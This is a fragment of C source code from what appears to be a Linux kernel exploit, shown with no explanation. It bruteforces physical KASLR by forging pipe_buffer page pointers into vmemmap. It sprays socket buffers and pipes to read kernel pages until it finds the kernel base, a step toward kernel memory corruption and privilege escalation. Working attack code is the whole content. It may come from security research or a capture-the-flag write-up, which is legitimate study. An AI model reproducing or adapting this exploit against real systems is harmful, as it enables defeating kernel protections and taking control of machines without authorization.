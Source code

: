 ```c
...
// Bruteforce phys-KASLR
    uint64_t kernel_base;
    bool found = false;
    uint8_t data[PAGE_SIZE] = {0};
    puts("[*] bruteforce phys-KASLR");
    for (uint64_t i = 0;; i++)
    {
        kernel_base = 0x40 * ((PHYSICAL_ALIGN * i) >> PAGE_SHIFT);
        pipebuf->page = vmemmap_base + kernel_base;
        pipebuf->offset = 0;
        pipebuf->len = PAGE_SIZE + 1;

        printf("\r[*] trying 0x%lx", pipebuf->page);

        for (int i = 0; i < SKBUF_SPRAY; i++)
        {
            if (write(sock[i][0], pipebuf, 1024 - 320) < 0)
            {
                perror("\n[-] write(socket)");
                return -1;
            }
        }

        for (int j = 0; j < PIPE_SPRAY; j++)
        {
            memset(&data, 0, PAGE_SIZE);
            int count;
            if (count = read(pfd[j][0], &data, PAGE_SIZE) < 0)
            {
                continue;
            }

            if (!memcmp(&data, "pwn", 3))
            {
                continue;
            }

            if (is_kernel_base(data))
            {
                found = true;
                break;
            }
        }

        for (int i = 0; i < SKBUF_SPRAY; i++)
        {
            if (read(sock[i][1], leak, 1024 - 320) < 0)
            {
                perror("[-] read(socket)");
                return -1;
            }
        }

        if (found)
        {
            break;
        }
    }
    found = false;
    printf("\n[+] kernel base vmemmap offset: 0x%lx\n", kernel_base);
...
```